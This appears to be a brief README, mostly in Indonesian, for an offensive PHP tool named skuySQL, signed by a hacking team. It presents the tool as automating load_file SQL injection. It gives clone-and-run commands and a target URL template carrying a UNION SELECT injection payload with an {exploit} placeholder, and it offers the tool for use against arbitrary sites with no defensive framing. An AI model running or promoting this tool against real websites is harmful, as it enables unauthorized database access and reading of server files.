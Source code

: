 Membantu anda untuk melakukan Injeksi load_file pada POC SQL Outfile

usage :

$ git clone https://github.com/indosecid/skuySQL.git

$ cd skuySQL

$ php skuySQL.php

$ enter your target : https://domain.com/detail.php?id=-1' union select 1,2,{exploit},4-- -


and Enjoy it...

Mr CR45H  -  Exsploit Union Cyber Team 
